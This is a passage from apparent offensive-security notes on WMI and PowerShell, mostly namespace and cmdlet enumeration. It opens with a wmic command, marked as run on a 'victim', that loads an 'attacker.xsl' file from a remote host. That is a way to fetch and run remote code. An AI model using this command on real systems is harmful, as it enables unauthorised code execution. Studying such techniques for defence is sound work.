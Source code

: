 Retrieving and executing wmic command on **victim**
```
wmic os get /FORMAT:"http://192.168.0.10:8000/attacker.xsl"
```

## WMI with PowerShell

Listing WMI providers within PowerShell Version 2 cmdlet:

```
Get-Command -CommandType cmdlet *wmi*

Get-WmiObject : Retrieve instances
Invoke-WmiMethod : Run a method
Register-WmiEvent : Register WMI events
Remove-WmiObject : Remove an object
Set-WmiInstance : Modify the writable property of WMI object
```

PowerShell version 3 provides CIM (Common Information Model) cmdlets which uses WS-MAN and CIM standards to manage objects.
```
Get-Command -CommandType cmdlet *cim*

Cmdlet          Get-CimAssociatedInstance                           1.0.0.0    CimCmdlets
Cmdlet          Get-CimClass                                       1.0.0.0    CimCmdlets
Cmdlet          Get-CimInstance                                    1.0.0.0    CimCmdlets
Cmdlet          Get-CimSession                                     1.0.0.0    CimCmdlets
Cmdlet          Invoke-CimMethod                                   1.0.0.0    CimCmdlets
Cmdlet          New-CimInstance                                    1.0.0.0    CimCmdlets
Cmdlet          New-CimSession                                     1.0.0.0    CimCmdlets
Cmdlet          New-CimSessionOption                               1.0.0.0    CimCmdlets
Cmdlet          Register-CimIndicationEvent                        1.0.0.0    CimCmdlets
Cmdlet          Remove-CimInstance                                 1.0.0.0    CimCmdlets
Cmdlet          Remove-CimSession                                  1.0.0.0    CimCmdlets
Cmdlet          Set-CimInstance                                    1.0.0.0    CimCmdlets
```
--> Use of WS-MAN allows CIM cmdlets to be used against boxes where WMI blocked but WS-MAN (WinRM) is enabled. (even with PSv2 )
 
Listing all namespaces within *root* class
```
PS C:\>  Get-WmiObject -Namespace "root" -Class "__Namespace" 
```
 
Listing all namespaces only select the name property
```
PS C:\>  Get-WmiObject -Namespace "root" -Class "__Namespace" | select name
PS C:\>  Get-CimInstance -Namespace "root" -Class "__Namespace" | select name
```

Listing all namespaces nested into other namespaces, in our case *root* namespace (recursive approach)
```
function Get-WmiNamespace {
    Param (
        $Namespace='root'
    )
    Get-WmiObject -Namespace $Namespace -Class __NAMESPACE | ForEach-Object {
        ($ns = '{0}\{1}' -f $_.__NAMESPACE,$_.Name)
        Get-WmiNamespace $ns
    }
}
```
